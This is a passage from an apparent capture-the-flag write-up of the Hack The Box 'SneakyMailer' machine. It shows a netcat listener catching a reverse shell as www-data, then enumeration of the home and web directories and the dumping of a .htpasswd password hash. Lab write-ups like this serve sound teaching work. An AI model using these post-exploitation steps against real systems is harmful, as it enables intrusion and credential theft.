 ```text
zweilos@kali:~/htb/sneakymailer$ nc -lvnp 46445

www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ export TERM=xterm-256color
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id && hostname
id && hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sneakymailer
```

started enumeration \(remembered to switch to bash this time since zsh seems to have problems with upgrading nc shells\)

```text
www-data@sneakymailer:~/sneakycorp.htb$ cd /home
www-data@sneakymailer:/home$ ls
low  vmail
www-data@sneakymailer:/home$ cd vmail
bash: cd: vmail: Permission denied
www-data@sneakymailer:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 May 14 17:10 .
drwxr-xr-x 18 root  root  4096 May 14 05:30 ..
drwxr-xr-x  8 low   low   4096 Jun  8 03:47 low
drwx------  5 vmail vmail 4096 May 19 21:10 vmail
```

in the `/home` directory there were only two folders, `low`, and `vmail`

```text
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ls -la
total 76
drwxrwxr-x 8 root developer  4096 Nov 11 13:23 .
drwxr-xr-x 3 root root       4096 Jun 23 08:15 ..
drwxr-xr-x 2 root root       4096 May 26 19:52 css
drwxr-xr-x 2 root root       4096 May 26 19:52 img
-rwxr-xr-x 1 root root      13742 Jun 23 09:44 index.php
drwxr-xr-x 3 root root       4096 May 26 19:52 js
drwxr-xr-x 2 root root       4096 May 26 19:52 pypi
drwxr-xr-x 4 root root       4096 May 26 19:52 scss
-rwxr-xr-x 1 root root      26523 May 26 20:58 team.php
drwxr-xr-x 8 root root       4096 May 26 19:52 vendor
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ cd ..
www-data@sneakymailer:~/dev.sneakycorp.htb$ ls
dev
www-data@sneakymailer:~/dev.sneakycorp.htb$ cd ..
www-data@sneakymailer:~$ ls
dev.sneakycorp.htb  html  pypi.sneakycorp.htb  sneakycorp.htb
www-data@sneakymailer:~$ cd pypi.sneakycorp.htb/
www-data@sneakymailer:~/pypi.sneakycorp.htb$ ls -la
total 20
drwxr-xr-x 4 root root     4096 May 15 14:29 .
drwxr-xr-x 6 root root     4096 May 14 18:25 ..
-rw-r--r-- 1 root root       43 May 15 14:29 .htpasswd
drwxrwx--- 2 root pypi-pkg 4096 Jun 30 02:24 packages
drwxr-xr-x 6 root pypi     4096 May 14 18:25 venv
www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd 
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
